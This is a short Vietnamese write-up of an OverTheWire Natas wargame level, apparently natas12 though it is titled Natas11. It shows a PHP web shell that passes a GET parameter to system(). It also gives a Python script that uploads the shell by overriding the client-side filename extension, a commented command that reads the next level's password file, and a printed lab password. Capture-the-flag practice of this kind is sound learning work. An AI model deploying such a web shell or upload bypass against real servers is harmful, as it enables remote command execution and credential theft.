




# Natas11



- Bài này thuộc dạng *upload* file

- Tức là ta phải `upload` 1 file *backdoor.php* lên server

- Code `backdoor`:

```
	<?php
		$backdoor = $_GET['backdoor'];
		system("$backdoor");
	?>
```

- Vấn đề là *upload* lên thế nào để server chịu nhận

- `Viewsource` xem thử code thế nào



- Khá bất ngờ là người ra đề không hề kiểm tra file mà *upload* thẳng lên server với tên *random*

- Vấn để là bây giờ server sẽ đổi thẳng đuôi `.php` thành đuổi `.jpg`. Nhưng mà đuôi này được đổi nhờ ảnh hưởng từ phía *client* nhờ form `filename` nên mình sẽ viết code *python* để đổi lại tên trong ô `filename` 

- Code của mình:

```
	import requests

	username = 'natas12'
	password = 'EDXp0pS26wLKHZy1rDBPUZk0RKfLGIR3'

	url = 'http://%s.natas.labs.overthewire.org'%username

	file = {
		'uploadedfile' : open('backdoor.php', 'rb')
	}

	data = {
		'MAX_FILE_SIZE' : '1000',
		'filename' : 'backdoor.php',
		'submit' : 'Upload File'
	}

	response = requests.post(url, auth = (username, password), files = file, data = data)
	# response = requests.post(url+'/upload/i5gpwbn1pc.php?backdoor=cat /etc/natas_webpass/natas13', auth = (username, password))

	print(response.text)
```





